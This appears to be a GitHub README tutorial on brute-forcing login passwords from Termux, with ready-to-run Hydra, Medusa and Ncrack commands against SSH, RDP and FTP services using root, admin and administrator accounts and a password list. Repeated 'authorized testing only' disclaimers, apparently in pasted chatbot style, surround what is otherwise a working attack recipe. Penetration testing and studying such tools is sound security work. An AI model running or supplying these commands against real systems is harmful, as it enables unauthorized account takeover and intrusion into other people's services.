 # Termux-Bruteforce
How to Bruteforce a Network Services such as SSH, HTTP, FTP, Telnet, IMAP, SMB


PASSWORD.TXT FILE


As a Novice, I cannot promote or suggest any illegal or unethical activities that may harm any individual or organization. It is important to use technology, tools, and information only for ethical and lawful purposes, in compliance with local and international laws and regulations. It is recommended to use tools like Bruteforce only for authorized and legitimate purposes, such as testing the security of your own systems or with written permission from the systems owners. Using such tools for any illegal or unethical purposes without proper authorization can result in severe legal penalties and consequences.






If you have the appropriate authorization to perform a bruteforce attack on a system, then you can use the following tools on Termux:

1. Hydra: It is a fast and flexible login cracker which supports various protocols, including HTTP, FTP, Telnet, IMAP, etc.


2. Medusa: It is a command-line tool that runs on Linux, macOS, and Termux. It is designed to test the security of password-protected services, such as FTP, SSH, IMAP, etc.


3. Ncrack: It is a high-speed network authentication cracking tool which can be used to test the security of network services, such as SSH, HTTP, SMB, etc.


However, please note that bruteforcing any system without proper authorization is illegal and unethical and can result in severe legal penalties and consequences. Ensure that you have written permission from the systems owners to test the security.



Here are some examples of using Ncrack on Termux:

1. Ncrack with SSH:
To perform a bruteforce attack on an SSH server with Ncrack, use the following command:

```
ncrack -v -p 22 --user <username> -P <passwords_file> <target_ip>
```

For example, to attack an SSH server with IP address 192.168.1.100 and username root, with a password list in the file passwords.txt, use the following command:

```
ncrack -v -p 22 --user root -P passwords.txt 192.168.1.100
```

2. Ncrack with RDP:
To perform a bruteforce attack on an RDP server with Ncrack, use the following command:

```
ncrack -v -p 3389 --user <username> -P <passwords_file> <target_ip>
```

For example, to attack an RDP server with IP address 192.168.1.100 and username administrator, with a password list in the file passwords.txt, use the following command:

```
ncrack -v -p 3389 --user administrator -P passwords.txt 192.168.1.100
```

Note that these commands are for authorized testing purposes only. Using them for any unauthorized activity is illegal and unethical.







Here are some examples of using Hydra on Termux:

1. Hydra with SSH:
To perform a bruteforce attack on an SSH server with Hydra, use the following command:

```
hydra -l <username> -P <passwords_file> ssh://<target_ip>
```

For example, to attack an SSH server with IP address 192.168.1.100 and username root, with a password list in the file passwords.txt, use the following command:

```
hydra -l root -P passwords.txt ssh://192.168.1.100
```

2. Hydra with FTP:
To perform a bruteforce attack on an FTP server with Hydra, use the following command:

```
hydra -l <username> -P <passwords_file> ftp://<target_ip>
```

For example, to attack an FTP server with IP address 192.168.1.100 and username admin, with a password list in the file passwords.txt, use the following command:

```
hydra -l admin -P passwords.txt ftp://192.168.1.100
```

Note that these commands are for authorized testing purposes only. Using them for any unauthorized activity is illegal and unethical.









Here are some examples of using Medusa on Termux:

1. Medusa with SSH:
To perform a brute-force attack on an SSH server with Medusa, use the following command:

```
medusa -u <username> -P <passwords_file> -h <target_ip> -M ssh
```

For example, to attack an SSH server with IP address 192.168.1.100 and username root, with a password list in the file passwords.txt, use the following command:

```
medusa -u root -P passwords.txt -h 192.168.1.100 -M ssh
```

2. Medusa with FTP:
To perform a brute-force attack on an FTP server with Medusa, use the following command:

```
medusa -u <username> -P <passwords_file> -h <target_ip> -M ftp
```

For example, to attack an FTP server with IP address 192.168.1.100 and username admin, with a password list in the file passwords.txt, use the following command:

```
medusa -u admin -P passwords.txt -h 192.168.1.100 -M ftp
```

Note that these commands are for authorized testing purposes only. Using them for any unauthorized activity is illegal and unethical.
